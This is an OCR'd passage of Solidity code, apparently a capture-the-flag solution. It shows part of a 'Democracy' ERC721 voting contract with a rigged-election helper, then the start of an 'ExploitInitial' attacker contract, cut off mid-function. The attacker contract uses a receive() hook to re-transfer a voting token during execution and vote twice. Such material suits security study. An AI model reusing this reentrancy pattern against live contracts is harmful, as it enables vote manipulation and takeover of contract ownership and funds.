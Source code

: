 ```
    //     public
    //     override
    //     callerIsNotAContract
    // {
    //     require(_isAuthorized(ownerOf(tokenId), _msgSender(), tokenId), "ERC721: caller is not token owner or approved");

    //     _safeTransfer(from, to, tokenId, "");
    // }
    //----------------------------------------------------

    function withdrawToAddress(address address_) external onlyOwner {
        payable(address_).call{value: address(this).balance}("");
    }

    function _callElection() private {
        electionCalled = true;

        if (votes[challenger] > votes[incumbent]) {
            incumbent = challenger;
            _transferOwnership(challenger);

            challenger = address(0);
        }
    }

    function _rigElection() private {
        // Mint voting tokens to challenger
        _mint(challenger, 0);
        _mint(challenger, 1);

        // Make it look like a close election...
        votes[incumbent] = 5;
        votes[challenger] = 3;
    }
}

contract ExploitInitial is IERC721Receiver {
    Democracy democracyContract;
    address challenger;
    ExploitFinal exploitFinalContract;

    constructor(Democracy _democracyContract, address _challenger, ExploitFinal _exploitFinalContract) {
        democracyContract = _democracyContract;
        challenger = _challenger;
        exploitFinalContract = _exploitFinalContract;
    }

    receive() external payable {
        democracyContract.safeTransferFrom(address(this), address(exploitFinalContract), 1);
    }

    function attack() public {
        democracyContract.vote(challenger);
    }

    function onERC721Received(
        address, /*operator*/
        address, /*from*/
        uint256, /*tokenId*/
        bytes calldata /*data*/
    )
```